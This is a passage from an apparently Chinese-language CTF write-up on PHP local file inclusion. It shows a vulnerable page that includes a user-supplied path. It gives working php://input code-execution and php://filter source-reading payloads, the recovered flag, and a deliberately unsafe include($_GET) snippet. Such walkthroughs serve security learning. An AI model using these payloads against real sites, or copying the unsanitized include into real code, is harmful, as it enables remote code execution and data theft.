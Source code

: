 即REQUEST方式传递的参数值，就是本页面要包含的文件路径，否则默认包含phpinfo.php文件，使用PHP伪协议进行文件包含(无论是post还是get方式提交都可以用$_REQUEST
用$_REQUEST['参数名称']获取值)

使用`php:input`伪协议传递参数进行代码执行，执行ls命令成功

```
url:?path=php://input

[POST DATA]
<?php system("ls"); ?>
```

![](https://gitee.com/YatJay/image/raw/master/img/202203132119402.png)

使用`php:filter`伪协议进行文件读取，并做base64解密

`url: ?path=php://filter/read=convert.base64-encode/resource=[文件名]`

得到index.php文件内容如下

```php
<?php 
show_source(__FILE__);
if(isset($_REQUEST['path'])){
	include($_REQUEST['path']);
}else{
	include('phpinfo.php');
}

```

得到dle345aae.php文件内容如下，拿到flag

```php
<?php 
$flag="flag{4c8cf944-e137-413b-8b72-41bda6d5ea37}";
```

# 涉及资源

爱春秋百度杯CTF：https://www.ichunqiu.com/battalion?t=1&r=O

南邮杯CTF：http://4.chinalover.sinaapp.com/web7/index.php

php伪协议：https://www.cnblogs.com/endust/p/11804767.html

https://pan.baidu.com/s/1x_mwVF--xxmoKAvDJ8mRsw 提取码: xiao

```php
<?php
$filename=$_GET['filename'];
include($filename);

/*
$filename=$_GET['filename'];
include($filename.".html");
*/
?>
```

